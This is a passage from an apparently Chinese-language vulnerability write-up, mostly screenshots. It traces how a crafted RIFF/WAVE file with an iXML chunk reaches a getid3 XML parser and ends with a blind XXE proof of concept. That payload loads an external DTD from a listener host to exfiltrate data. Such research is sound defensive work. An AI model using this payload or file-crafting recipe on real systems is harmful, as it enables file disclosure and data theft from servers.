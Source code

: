 [![](https://xzfile.aliyuncs.com/media/upload/picture/20210430213242-8a65aebc-a9b8-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210430213242-8a65aebc-a9b8-1.png)

下面来到一些关键的地方了，需要认真调试了

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210430213258-93a80f9c-a9b8-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210430213258-93a80f9c-a9b8-1.png)

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210430213305-98317d96-a9b8-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210430213305-98317d96-a9b8-1.png)

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210430213324-a3288e7e-a9b8-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210430213324-a3288e7e-a9b8-1.png)

这里读取了偏移 101B，32kb 大小的头部内容进去，然后这里就可以搜索`RIFF|SDSS|FORM`的数据了，emm。我们构造数据的话, 可以先大量填充，最终找到 101 个字节的位置，然后修改为 RIFF 作为开始就可以进入到关键的地方了。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210430213350-b313e86a-a9b8-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210430213350-b313e86a-a9b8-1.png)

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210430213401-b97964f0-a9b8-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210430213401-b97964f0-a9b8-1.png)

但是来到这里，我们的数据，依然是不成功的，因为要符合 getid3 库去解析 RIFF 的格式，要不然是提取不到数据的。

第一次构造如下:

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210430213414-c137ae2c-a9b8-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210430213414-c137ae2c-a9b8-1.png)

结果如下:

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210430213433-cc499be0-a9b8-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210430213433-cc499be0-a9b8-1.png)

最终进入关键的函数，结合最前面的分析，直接就是`simple_load_xml`

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210430213452-d7c48160-a9b8-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210430213452-d7c48160-a9b8-1.png)

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210430213610-0631fb36-a9b9-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210430213610-0631fb36-a9b9-1.png)

其实一开始我是没意识到那个位置代表的是 RIFF 的数据大小的，但是肯定有代表大小的区域，且为 4 字节，我试着填 FF 就发现了。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210430213636-15c2aa5a-a9b9-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210430213636-15c2aa5a-a9b9-1.png)

其实格式是这样的 (感兴趣的话，可以直接跟一下解析就行了，这里直接给出我的结果):

```
RIFF|4字节随便填|WAVE|iXML|4字节代表xml内容大小|xml内容

```

### 0X4.4 构造 POC

这里因为没有回显，需要外带数据，所以可以这样构造:

```
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://docker.for.mac.localhost:8091/xxe.dtd">
%sp;
%param1;
]>
<r>&exfil;</r>>

```
